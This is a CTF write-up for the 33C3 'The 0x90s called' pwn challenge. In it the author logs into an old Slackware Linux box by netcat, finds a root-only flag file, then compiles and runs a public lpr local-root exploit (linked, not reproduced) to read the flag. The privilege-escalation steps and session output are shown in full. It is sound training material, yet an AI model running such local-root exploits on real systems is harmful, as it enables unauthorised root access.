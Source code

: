 ```yaml
---
title: '[33C3 CTF] The 0x90s called Writeup'
author: Megabeets
type: posts
date: 2016-12-29T20:00:28+00:00

sharing_disabled:
  - 1
categories:
  - 33C3 CTF
  - Writeups
tags:
  - 33C3
  - CTF
  - PWN
  - Writeups

---
```

### **Description:**

> **The 0x90s called &#8211; PWN**
> 
> The 0x90s called, they want their vulns back!  
> [Pwn this and get the flag.][1] Who would&#8217;ve thought?  
> If you want to try it locally first, [check this out][2].

This challenge was pretty simple and obvious. We are given with a website that is requesting a &#8216;proof of work&#8217; from us to reduce the load on their infrastructure. We need to press start and then we get a port to which we can connect using `netcat`, username and password. We connect to the server and search for the flag.

```sh
Megabeets:~# nc 78.46.224.70 2323

Welcome to Linux 0.99pl12.

slack login: challenge
challenge
Password:challenge

Linux 0.99pl12. (Posix).
No mail.
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ls -la / | grep flag
-r--------   1 root     root           36 Dec 27  1916 flag.txt
slack:~$
```


Look at the highlighted rows. We can see that we are in _Slack Linux 0.99pl12_ machine, that _flag.txt_ is on the root folder and that only _root_ can read it. Before trying anything special or complicated, lets search online for known exploit to this version.

![](././90s_called_1.png)Oh, this was easy! There&#8217;s a known exploit available on _Github_.



Lets run it to see if it works, and if so read the flag.

```sh
slack:~$ gcc exploit.c -o exploit
slack:~$ id
uid=405(challenge) gid=1(other)
slack:~$ ./exploit
[ Slackware linux 1.01 /usr/bin/lpr local root exploit
# id
uid=405(challenge) gid=1(other) euid=0(root) egid=18(lp)
# cat /flag.txt
33C3_Th3_0x90s_w3r3_pre3tty_4w3s0m3
```


&nbsp;

It worked just fine (thanks [prdelka][4] for the exploit)! We got _root_ permissions and were able to read the flag.  
**Flag**: _33C3\_Th3\_0x90s\_w3r3\_pre3tty_4w3s0m3_

I’ll be happy to read in the comments how the challenge was for you.



 [1]: http://78.46.224.70:8080/
 [2]: https://33c3ctf.ccc../qemu-xmas-slackware.tar.xz
 [3]: http://www.megabeets.n./90s_called_1.png
 [4]: https://github.com/HackerFantastic/Public/blob/master/exploits/prdelka-vs-GNU-lpr.c